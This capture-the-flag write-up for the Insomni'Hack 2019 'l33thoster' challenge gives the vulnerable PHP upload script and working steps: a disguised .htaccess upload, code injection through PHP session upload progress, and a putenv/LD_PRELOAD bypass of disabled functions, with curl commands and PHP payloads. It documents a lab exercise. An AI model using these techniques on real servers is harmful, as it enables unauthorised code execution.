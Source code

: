 ```yaml
---
layout: post
title: Insomni'Hack teaser 2019 l33thoster writeup
---
```


# Description
You can host your l33t pictures here.

# The Challenge
This challenge was a PHP challenge that allowed users to upload files in custom folder, the source code was given :
```php
<?php
if (isset($_GET["source"])) 
    die(highlight_file(__FILE__));

session_start();

if (!isset($_SESSION["home"])) {
    $_SESSION["home"] = bin2hex(random_bytes(20));
}
$userdir = "images/{$_SESSION["home"]}/";
if (!file_exists($userdir)) {
    mkdir($userdir);
}

$disallowed_ext = array(
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
);


if (isset($_POST["upload"])) {
    if ($_FILES['image']['error'] !== UPLOAD_ERR_OK) {
        die("yuuuge fail");
    }

    $tmp_name = $_FILES["image"]["tmp_name"];
    $name = $_FILES["image"]["name"];
    $parts = explode(".", $name);
    $ext = array_pop($parts);

    if (empty($parts[0])) {
        array_shift($parts);
    }

    if (count($parts) === 0) {
        die("lol filename is empty");
    }

    if (in_array($ext, $disallowed_ext, TRUE)) {
        die("lol nice try, but im not stupid dude...");
    }

    $image = file_get_contents($tmp_name);
    if (mb_strpos($image, "<?") !== FALSE) {
        die("why would you need php in a pic.....");
    }

    if (!exif_imagetype($tmp_name)) {
        die("not an image.");
    }

    $image_size = getimagesize($tmp_name);
    if ($image_size[0] !== 1337 || $image_size[1] !== 1337) {
        die("lol noob, your pic is not l33t enough");
    }

    $name = implode(".", $parts);
    move_uploaded_file($tmp_name, $userdir . $name . "." . $ext);
}

echo "<h3>Your <a href=$userdir>files</a>:</h3><ul>";
foreach(glob($userdir . "*") as $file) {
    echo "<li><a href='$file'>$file</a></li>";
}
echo "</ul>";

?>

<h1>Upload your pics!</h1>
<form method="POST" action="?" enctype="multipart/form-data">
    <input type="file" name="image">
    <input type="submit" name=upload>
</form>
<!-- /?source -->
1
```	

## Ideas

My first thought was that the extension check was done without case check so changing the case could work.

Also the challenge suggested we couldn't use php tags `<?`, and  we need to make the file look like an image (bypass `exif_imagetype`) with defined size `1337x1337` 

# Solving the challenge

The challenge is basically asking for a `.htaccess` upload while bypassing all restrictions, we need a valid image header that will not break `.htaccess` syntax, which is `wbmp` because it starts with a null byte and `.htaccess` will ignore that line, we craft our `.htaccess` file and add a directive to make our custom extension files be interpreted as `PHP`.
![screen1.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen1.png)
We do the same thing to upload our php file with the custom extension the content isn't important.
![screen2.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen2.png)

The next step is to edit `.htaccess` file and add two more directives, the first one is disable php session upload_progress cleanup, and the second one is append file which will be a custom session one.

![screen3.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen3.png)
Note that PHP_SESSION_UPLOAD_PROGRESS will create a session file for me, and disabling the cleanup will not remove my files so I don't need to do any kind of race conditions.

```sh
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
Now requesting our `.xyz` file in the browser shows some serialized data with interested reflected values
![screen4.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen4.png)
so the file parameter is reflected here it's `file` and also whatever I put in PHP_SESSION_UPLOAD_PROGRESS, i'm gonna use one of them to inject my php code.
I'm going to intercept my curl request in burp and edit one of the parameters.
```sh
export http_proxy="http://127.0.0.1:8080/"
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
![screen5.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen5.png)
I changed the PHPSESSID value because the old one wasn't deleted, so we need to use a new one, need to change it in `.htaccess` as well.
Let's request our file in the browser and enjoy RCE.
![screen6.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen6.png)
Trying various command execution functions results in nothing so we'd better check `phpinfo`
![screen8.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen8.png)
It seems that `mail()` and `putenv()` aren't filtered, so we could overwrite `LD_PRELOAD` to our custom `.so` file and overwrite some function that mail calls.
I stumbeled across another problem of how to upload a valid `.so` file since we didn't have arbitrary upload , also `file_put_contents` and other file manipulation functions were filtered, the solution was to upload the file using our php script and `move_uploaded_file` function. 
_ for more details about compiling and generating .so file please check https://corb3nik.github.io/blog/alictf-2016/homework_
```sh
curl -vvv 'http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz?0=move_uploaded_file($_FILES[%22image%22][%22tmp_name%22],%20%22/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so%22);' -F 'image=@hack.so' -g
```
Next we need to execute the following PHP code to get shell command execution.

```php
	echo putenv("LD_PRELOAD=/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so");
  echo putenv("exec=".$_GET['cmd']);
  echo mail("a", "a", "a");
  show_source("/tmp/out.txt");
```

I have used a perl payload to get reverse shell, the final step was to bypass the captcha  in the `get_flag` binary in an automated way , I have used `PHP` for this.

```php
<?php


        $descriptorspec = array(
           0 => array("pipe", "r"),  
           1 => array("pipe", "w"),  
           2 => array("file", "/tmp/error-output.txt", "a")
        );

        $cwd = '/';
        $env = array();

        $process = proc_open('/get_flag', $descriptorspec, $pipes, $cwd, $env);

        if (is_resource($process)) {

            $res = eval('return '.explode(":", fread($pipes[1], 1024))[1].';');

            fwrite($pipes[0], $res);
             fclose($pipes[0]);

            echo fread($pipes[1], 1024);

            echo fread($pipes[1], 1024);

            $return_value = proc_close($process);

        }
?>
```
```sh
$ php -f /tmp/file.php

INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}
```